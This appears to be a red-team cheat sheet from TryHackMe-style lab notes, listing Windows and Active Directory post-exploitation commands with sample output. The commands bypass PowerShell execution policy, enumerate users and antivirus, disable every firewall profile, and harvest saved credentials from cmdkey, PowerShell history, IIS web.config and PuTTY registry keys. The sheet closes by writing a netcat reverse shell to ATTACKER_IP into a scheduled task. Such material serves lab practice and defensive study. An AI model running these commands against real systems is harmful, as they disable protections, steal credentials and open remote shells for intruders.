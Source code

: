 #bypassing script execution 

```
  powershell -ex bypass -File .\sample.ps1
```

#can also be come with

```
  set-executionpolicy -scope currentuser remotesigned
```
The following PowerShell command is to get all active directory user accounts. Note that we need to use  -Filter argument.

```
PS C:\Users\thm> Get-ADUser  -Filter *
DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :
PS C:\Users\thm>
```

Using the SearchBase option, we specify a specific Common-Name CN in the active directory. For example, we can specify to list any user(s) that part of Users.

```
PS C:\Users\thm> Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"


DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :

```
**Check antivirus which and how many**\

  PS C:\Users\thm> wmic /namespace:\\root\securitycenter2 path antivirusproduct
  
_can also be done with another command_ 

```
PS C:\Users\thm> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct


displayName              : Bitdefender Antivirus
instanceGuid             : {BAF124F4-FA00-8560-3FDE-6C380446AEFB}
pathToSignedProductExe   : C:\Program Files\Bitdefender\Bitdefender Security\wscfix.exe
pathToSignedReportingExe : C:\Program Files\Bitdefender\Bitdefender Security\bdservicehost.exe
productState             : 266240
timestamp                : Wed, 15 Dec 2021 12:40:10 GMT
PSComputerName           :

displayName              : Windows Defender
instanceGuid             : {D58FFC3A-813B-4fae-9E44-DA132C9FAA36}
pathToSignedProductExe   : windowsdefender://
pathToSignedReportingExe : %ProgramFiles%\Windows Defender\MsMpeng.exe
productState             : 393472
timestamp                : Fri, 15 Oct 2021 22:32:01 GMT
PSComputerName           :
```
To check status of antivirus

_for specific output like realtime_
```
PS C:\Users\thm> Get-MpComputerStatus | select RealTimeProtectionEnabled  (mppreference if not worked ) 

RealTimeProtectionEnabled
-------------------------
                    False
```
_for all output of antivirus_

```
PS C:\Users\thm> Get-MpComputerStatus
```

for firewall 
```
PS C:\Users\thm> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain     True
Private    True
Public     True
```
to disable the firewall

```
PS C:\Windows\system32> Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
PS C:\Windows\system32> Get-NetFirewallProfile | Format-Table Name, Enabled
---- -------
Domain False
Private False
Public False
```

to get firewall rules

```
PS C:\Users\thm> Get-NetFirewallRule | select DisplayName, Enabled, Description

DisplayName                                                                  Enabled
-----------                                                                  -------
Virtual Machine Monitoring (DCOM-In)                                           False
Virtual Machine Monitoring (Echo Request - ICMPv4-In)                          False
Virtual Machine Monitoring (Echo Request - ICMPv6-In)                          False
Virtual Machine Monitoring (NB-Session-In)                                     False
Virtual Machine Monitoring (RPC)                                               False
SNMP Trap Service (UDP In)                                                     False
SNMP Trap Service (UDP In)                                                     False
Connected User Experiences and Telemetry                                        True
Delivery Optimization (TCP-In)                                                  True
```
To see avaiable event log option through powershell
```
PS C:\Users\thm> Get-EventLog -List

  Max(K) Retain OverflowAction        Entries Log
  ------ ------ --------------        ------- ---
     512      7 OverwriteOlder             59 Active Directory Web Services
  20,480      0 OverwriteAsNeeded         512 Application
     512      0 OverwriteAsNeeded         170 Directory Service
 102,400      0 OverwriteAsNeeded          67 DNS Server
  20,480      0 OverwriteAsNeeded       4,345 System
  15,360      0 OverwriteAsNeeded       1,692 Windows PowerShell
```
To get all the installed application and it's version

```
PS C:\Users\thm> wmic product get name,version
Name                                                            Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     14.28.29910
AWS Tools for Windows                                           3.15.1248
Amazon SSM Agent                                                3.0.529.0
aws-cfn-bootstrap                                               2.0.5
AWS PV Drivers                                                  8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  14.28.29910
```
To see hidden directory/files 

```
PS C:\Users\thm> Get-ChildItem -Hidden -Path C:\Users\kkidd\Desktop\
```

To check windows services 

```
net start
```
To Listening ports 

```
netstat -aon

```

_you can also use `findstr` to find specific port on listening like `netstat -aon | findstr "22"`_


To find which service on path running on port 

```
tasklist /svc /FI "PID eq <pidnumber>"
```


To check users 

```
net user
```

You can discover the available groups using `net group` if the system is a Windows Domain Controller or `net localgroup` otherwise,

DNS Zone Transer 
```
dig -t AXFR redteam.thm @10.10.243.185
```
to check avaible shamba share 

```
net share
```

to check network event

```
/opt/snmpcheck/snmpcheck.rb $IP -c COMMUNITY_STRING

```

To check powershell history / remember to use below command on command prompt only 

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
To check saved Credentials

```
cmdkey /list
```

and to run saved crentials user as cmd type

```
runas /savecred /user:userfromsavedcreds cmd.exe
```

IIS configuraiton ( web server to see saved creds) 

```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

Retrieve Credentials from Software: PuTTY
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
To Check Permission of file 

```
icacls c:\tasks\schtask.bat
```

To seee the schedular tasks 

```
schtask
```
To add to schedular task if have approprite permmsion 

```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
